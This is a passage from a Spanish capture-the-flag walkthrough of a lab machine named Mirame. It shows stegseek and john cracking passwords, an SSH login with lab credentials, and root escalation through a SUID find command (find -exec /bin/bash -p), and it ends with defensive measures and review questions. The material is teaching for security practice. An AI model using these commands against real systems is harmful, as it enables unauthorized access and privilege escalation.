

## Paso 15 · Revisar el directorio oculto

Abrimos el directorio oculto desde el navegador para revisar su contenido.

```bash
http://172.17.0.2/directoriotravieso/
```



Dentro del directorio aparece una imagen aparentemente inofensiva. El nombre del archivo del writeup base es miramebien.jpg, lo que nos da una pista clara para analizarla con más detalle.

## Paso 16 · Descargar la imagen sospechosa

Descargamos la imagen a nuestra carpeta de trabajo para poder analizarla localmente.

```bash
wget http://172.17.0.2/directoriotravieso/miramebien.jpg
ls -l
file miramebien.jpg
```



El comando file nos ayuda a comprobar que realmente hemos descargado una imagen JPEG y no una página HTML de error.

## Paso 17 · Analizar metadatos con Exiftool

En primer lugar, revisamos los metadatos de la imagen. En el writeup base no aparecen comentarios ni metadatos relevantes, pero el análisis sirve para descartar información visible antes de pasar a esteganografía.

```bash
exiftool miramebien.jpg
```



> **Idea importante**
> La esteganografía consiste en ocultar información dentro de archivos aparentemente normales, como imágenes. Aunque los metadatos no muestren nada útil, todavía puede existir contenido oculto en el propio archivo.


## Paso 18 · Fuerza bruta sobre Steghide con Stegseek

Al intentar extraer contenido oculto con Steghide, la herramienta solicita una contraseña. Para descubrirla, usamos Stegseek con el diccionario rockyou.txt.

```bash
stegseek miramebien.jpg /usr/share/wordlists/rockyou.txt
```

Resultado esperado: Stegseek encuentra la contraseña utilizada para proteger el contenido oculto.



```bash
chocolate
```

Además, la herramienta indica que dentro de la imagen existe un archivo oculto llamado ocultito.zip.

## Paso 19 · Extraer el archivo oculto con Steghide

Con la contraseña obtenida, extraemos el contenido oculto de la imagen.

```bash
steghide extract -sf miramebien.jpg
```

Cuando la herramienta solicite la contraseña, introducimos:

```bash
chocolate
```

Si todo va correctamente, se generará el archivo comprimido ocultito.zip.



Comprobamos con:

```bash
ls -la
```



## Paso 20 · Descomprimir el ZIP y obtener credenciales

Listamos los archivos generados y descomprimimos el archivo ZIP obtenido de la imagen.

```bash
unzip ocultito.zip
ls -la
```



El archivo tiene una clave y no podemos descomprimirlo fácilmente.

Dentro del ZIP aparece un archivo de texto que contiene credenciales válidas para el servicio SSH. Si el nombre del archivo de texto varía, revisa los archivos extraídos con ls y lee el archivo correspondiente.

Vamos a usar el comando:

```bash
zip2john miramebien.jpg.out > hash_mirabien.txt
```

Para generar un hash de la contraseña

Y ahora lo rompemos con rockyou.txt:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash_mirabien.txt
```



Ahora descomprimimos el archive:

```bash
unzip ocultito.zip
```



Ya tenemos el archivo secret.txt:

```bash
cat secret.txt
```



Credenciales esperadas:

```bash
carlos:carlitos
```

## Paso 21 · Acceder por SSH como carlos

Usamos las credenciales obtenidas para entrar por SSH en la máquina vulnerable.

```bash
ssh carlos@172.17.0.2
```

Cuando pida contraseña, introducimos:

```bash
carlitos
```



Una vez dentro, comprobamos el usuario actual y sus identificadores.

```bash
whoami
id
```



## Paso 22 · Enumerar binarios SUID

Una vez dentro como carlos, buscamos binarios con el bit SUID activo. Un binario SUID se ejecuta con los permisos efectivos de su propietario. Si el propietario es root, una mala configuración puede permitir una escalada de privilegios.

```bash
find / -perm -4000 -exec ls -l {} \; 2>/dev/null
```

Resultado esperado: aparece el binario /usr/bin/find con permisos SUID activos.

-rwsrwxrwx



> **Explicación breve**
> La letra s en los permisos indica que el bit SUID está activo. En este caso, el problema es especialmente grave porque /usr/bin/find permite ejecutar comandos mediante -exec.


## Paso 23 · Entender por qué find permite escalar privilegios

En Linux, el bit SUID permite que un programa se ejecute con los permisos del propietario del archivo, no con los permisos del usuario que lo lanza.

Normalmente, si un usuario llamado carlos ejecuta un comando, ese comando se ejecuta con los permisos de carlos. Pero si un binario pertenece a root y tiene activado el bit SUID, ese binario puede ejecutarse con privilegios efectivos de root.

En esta máquina hemos encontrado que el binario find tiene el bit SUID activo y pertenece a root. Esto es peligroso porque find no solo sirve para buscar archivos, sino que también permite ejecutar comandos mediante el parámetro -exec.

Por ejemplo, find puede buscar un archivo y, por cada resultado encontrado, ejecutar una acción. Esa acción puede ser un comando del sistema. Si find se está ejecutando con privilegios elevados por culpa del SUID, el comando ejecutado con -exec puede aprovechar esos privilegios.

La idea importante es esta:

```bash
find es una herramienta legítima.
find con SUID y propietario root es una mala configuración.
find con SUID puede permitir ejecutar una shell con privilegios elevados.
```

Esta configuración no debería existir en un sistema correctamente protegido. Herramientas como find, bash, vim, nano, less, cp, tar o python pueden ser peligrosas si tienen SUID y pertenecen a root, porque muchas de ellas permiten ejecutar comandos o abrir una shell.

Por eso, en una auditoría básica de privilegios, siempre revisamos los binarios SUID con:

```bash
find / -perm -4000 -type f 2>/dev/null
```

En esta práctica, el resultado importante es que aparece find con permisos SUID. Eso nos indica una posible vía de escalada de privilegios.

## Paso 24 · Explotar el binario find y obtener root

Ejecutamos una shell Bash preservando privilegios elevados con el parámetro -p.

```bash
/usr/bin/find . -exec /bin/bash -p \; -quit
```

Explicación del comando:

```bash
find .: ejecuta find en el directorio actual.
```

-exec /bin/bash -p \;: lanza una shell Bash preservando privilegios elevados.

-quit: finaliza find inmediatamente después de abrir la shell.

Comprobamos que hemos escalado correctamente a root:

```bash
whoami
id
```



## Paso 25 · Crear evidencia final de acceso root

Para cerrar la práctica, generamos una evidencia final sencilla que demuestre el acceso privilegiado dentro del laboratorio.

```bash
whoami
id
hostname
pwd
```

La captura debe mostrar claramente que el usuario actual es root.



## Medidas defensivas y reflexión final

Esta máquina permite repasar varias medidas defensivas importantes que deberían aplicarse en un entorno real:

Validar y parametrizar correctamente las consultas SQL para evitar SQL Injection.

No mostrar errores de base de datos al usuario final.

No almacenar credenciales en texto claro o con protección débil.

Revisar qué información se publica dentro de directorios web.

Analizar imágenes y archivos antes de publicarlos si pueden contener información oculta.

Evitar contraseñas débiles que aparezcan en diccionarios comunes.

Auditar periódicamente binarios con SUID activo.

Eliminar el bit SUID de herramientas que no lo necesitan, especialmente binarios capaces de ejecutar otros comandos.

Aplicar el principio de mínimo privilegio.

## Preguntas de repaso

¿Qué puertos estaban abiertos en la máquina Mirame?

¿Qué pista indica que el formulario puede ser vulnerable a SQL Injection?

¿Para qué sirve guardar una petición HTTP de Burp en un archivo .req?

¿Qué información extrae SQLMap en esta práctica?

¿Por qué Hydra no era el camino correcto en esta máquina?

¿Cómo se descubre el directorio directoriotravieso?

¿Qué herramienta permite encontrar la contraseña steghide de la imagen?

¿Qué credenciales se obtienen del archivo oculto?

¿Por qué /usr/bin/find con SUID es peligroso?

¿Qué función tiene el parámetro -p en /bin/bash -p?

## Conclusión
La máquina Mirame permite practicar una cadena completa de auditoría en laboratorio: reconocimiento, explotación web controlada, tratamiento de credenciales, descubrimiento de recursos ocultos, análisis esteganográfico y escalada de privilegios por una mala configuración SUID.
